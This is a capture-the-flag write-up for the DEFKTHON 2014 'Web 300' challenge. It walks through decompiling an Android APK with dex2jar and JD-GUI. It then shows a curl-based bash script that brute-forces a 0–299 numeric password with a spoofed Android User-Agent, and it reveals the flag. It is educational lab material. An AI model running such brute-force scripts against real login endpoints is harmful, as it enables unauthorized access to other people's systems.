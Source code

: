 # DEFKTHON CTF: Web 300

**Description:**

> [we love it!](web300.apk)

## Write-up

We’re given an Android application package file, [`web300.apk`](web300.apk). `*.apk` files are essentially zip files with a different extension. If you rename it to `web300.apk.zip` and extract it, you’ll see it contains a `classes.dex` file. `*.dex` files are compiled Android application code files, containing bytecode for the Dalvik Virtual Machine (the workhorse powering the Android system).

Let’s convert the bytecode in the `classes.dex` file back to a `*.jar` file [using `dex2jar`](https://code.google.com/p/dex2jar/):

```bash
$ d2j-dex2jar web300.apk
dex2jar web300.apk -> web300-dex2jar.jar
```

Now, `\*.jar` files are essentially zip files too. We can just rename `web300-dex2jar.jar` to `web300-dex2jar.jar.zip` and unzip it to unpack its contents. Alternatively, this command has the same result:

```bash
$ jar xf web300-dex2jar.jar
```

In this case, the resulting source files aren’t easily readable, so let’s use a decompiler. Open `web300-dex2jar.jar` in [JD-GUI](http://jd.benow.ca/). Now we can view all the source code, or go to _File_ → _Save All Sources_ to save the sources so we can view them in our preferred text editor.

The `com.example.defkthonapp/MainActivity` class looks interesting:

```java
private Runnable Check = new Runnable()
{
  public void run()
  {
    TelephonyManager localTelephonyManager = (TelephonyManager)MainActivity.this.getSystemService("phone");
    String str1 = localTelephonyManager.getDeviceId();
    String str2 = localTelephonyManager.getSimSerialNumber();
    int i = new Random().nextInt(300);
    ((WebView)MainActivity.this.findViewById(2131230723)).postUrl("http://challenges.defconkerala.com/web/300/update.php", EncodingUtils.getBytes("pwd=" + Integer.toString(i) + "&imei=" + str1 + "&div=" + str2, "BASE64"));
  }
};
private EditText paswd;
```

So, the app performs a POST request to `http://challenges.defconkerala.com/web/300/update.php` with `pwd=$password&imei=$deviceID&div=$simSerialNumber` as POST data. The `$deviceID` and `$simSerialNumber` never change for the same device, only the `$password` does — and it is a random integer from 0 (inclusive) to 300 (exclusive).

Testing reveals that the `$deviceID` and `$simSerialNumber` aren’t validated in any way on the server, so we can just use bogus values for them. The `User-Agent` request header seems to be checked though — if it doesn’t contain `Android`, the following response is sent:

```
We love android !!
```

Setting `_Android` as the `User-Agent` header seems to work.

Let’s brute-force the password and see what happens. I wrote a quick shell script for this:

```bash
#!/usr/bin/env bash

deviceID='1337';
simSerialNumber='1337';
user_agent='_Android';

url='http://challenges.defconkerala.com/web/300/update.php';

for password in {0..299}; do
  data="pwd=${password}&imei=${deviceID}&div=${simSerialNumber}";
  curl -s --user-agent "${user_agent}" --data "${data}" "${url}" | grep 'Flag';
done;
```

Let’s run it:

```bash
$ ./web300.sh
Flag is: w00tkitk@t
```

The flag is `w00tkitk@t`.

## Other write-ups and resources

* <http://blog.0xdeffbeef.com/2014/03/defkthon-ctf-2014-we-love-it-web-300.html>
* <http://tasteless.eu/2014/03/defkthon-ctf-2014-web200-web300-and-web400-writeup/>
* [Japanese](http://wataamectf.blogspot.jp/2014/03/defkthon-ctf-writeup.html)
